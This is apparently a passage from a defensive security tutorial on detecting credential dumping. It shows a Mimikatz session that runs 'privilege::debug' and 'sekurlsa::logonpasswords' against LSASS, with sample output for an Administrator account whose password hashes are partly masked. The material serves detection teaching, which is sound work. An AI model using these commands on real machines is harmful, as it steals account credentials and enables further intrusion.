 **Detection Example 3: Detecting Credential Dumping**
Another critical aspect of cybersecurity is detecting credential dumping activities. One widely used tool for credential dumping is Mimikatz, offering various methods for extracting Windows credentials. One specific command, "sekurlsa::logonpasswords", enables the dumping of password hashes or plaintext passwords by accessing the Local Security Authority Subsystem Service (LSASS). LSASS is responsible for managing user credentials and is a primary target for credential-dumping tools like Mimikatz.

The attack can be executed as follows.

```
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```

As we can see, the output of the "sekurlsa::logonpasswords" command provides powerful insights into compromised credentials.
